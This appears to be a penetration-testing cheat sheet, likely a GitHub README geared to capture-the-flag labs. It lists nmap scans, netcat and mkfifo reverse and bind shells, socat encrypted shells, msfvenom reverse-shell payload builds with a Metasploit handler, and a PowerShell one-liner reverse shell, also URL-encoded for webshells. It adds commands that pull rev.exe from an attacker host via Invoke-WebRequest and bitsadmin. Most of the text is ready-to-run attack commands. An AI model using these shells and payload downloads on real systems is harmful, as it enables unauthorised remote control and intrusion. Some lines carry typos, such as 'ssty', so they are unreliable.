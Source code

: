 # SUMMARY OF SCRIPTS AND USER CASES

## NMAP 
```
sudo nmap -sS -sV -sC -T4 --min-rate 8888 $TARGET -vv
# -sS: stealth
# -sC: scripting
# -sV: service detection
# -T4: aggresiveness
# --min-rate: packet strength 

nmap -sV --script=http-enum $TARGET
```
## NETCAT 
```
#REVERSE SHELL 
nc -lvnp <port-number>
# -l: listen
# -v: verbose
# -n: no dns resolve
# -p: specify port
nc -lvnp 4444

#BIND SHELL
nc <target-ip> <port-number>
# This will connect to the listener
nc 10.10.10.10 4444
```

**STABILIZE SHELL**. 
```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
`Ctrl + z` 
ssty raw -echo; fg
```


**BIND SHELL PRACTICE for netcat without -e**
```
PORT=4444
mkfifo /tmp/f; nc -lvnp $PORT < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

# ATTACKER MACHINE WILL HAVE TO CONNECT TO VICTIM 
```

**REVERSE SHELL PRACTICE for netcat without -e**
```
IP=10.10.93.13
PORT=4444
mkfifo /tmp/f; nc $IP $PORT < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

# VICTIM MACHINE WILL CONNECT TO YOU, SO ATTACKER MACHINE SHOULD HAVE LISTENER OPEN BEFORE CONNECTION 
```

## SOCAT ENCRYPTED SHELLS
```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt 
cat shell.crt shell.key > shell.pem


# TO START THE ENCRYPTED LISTENER
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -

# TO CONNECT TO THE LISTENER
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

## MSFVENOM 

Windows
```
# STAGED
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe

# STAGELESS
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```

LINUX
```
# STAGED 
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
# STAGELESS 
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
```

Once payload is created. Run multi handler 
```
msfconsole -q
use multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.10.10.10
set LPORT 4444
exploit -j # To run as background job 
```


```
Find files:

find . -name flag1.txt: find the file named “flag1.txt” in the current directory
find /home -name flag1.txt: find the file names “flag1.txt” in the /home directory
find / -type d -name config: find the directory named config under “/”
find / -type f -perm 0777: find files with the 777 permissions (files readable, writable, and executable by all users)
find / -perm a=x: find executable files
find /home -user frank: find all files for user “frank” under “/home”
find / -mtime 10: find files that were modified in the last 10 days
find / -atime 10: find files that were accessed in the last 10 day
find / -cmin -60: find files changed within the last hour (60 minutes)
find / -amin -60: find files accesses within the last hour (60 minutes)
find / -size 50M: find files with a 50 MB size
```

note always add `2>/dev/null` so you can filter the errors 
```

find / -writable -type d 2>/dev/null : Find world-writeable folders
find / -perm -222 -type d 2>/dev/null: Find world-writeable folders
find / -perm -o w -type d 2>/dev/null: Find world-writeable folders
```

after entering 
clone this 
https://github.com/mzet-/linux-exploit-suggester and use it 


## POWERSHELL
> CHANGE `<ip>` and `<port>`
  
  
One liner reverse shell 
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

same one liner reverse shell but url encoded for webshells
```powershell
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

DownloadFile 
```
Invoke-WebRequest -Uri 'http://10.10.167.187:8888/rev.exe' -OutFile '.\rev.exe'
```
## CMD

search files in all directories and subdirectories of the current drive
```
dir /s root.txt
```

Download Files
```
@echo off
bitsadmin /transfer myDownloadJob /download /priority high http://10.10.167.187:8888/rev.exe %cd%\rev.exe
```
Download file in Batch Via Powershell Module
```
powershell -command "Invoke-WebRequest -Uri 'http://10.10.167.187:8888/rev.exe' -OutFile '.\rev.exe'"
```


## Operating Systems

## Windows 
> Common Hackable components

Writable Path for Windows
`C:\Windows\Temp`
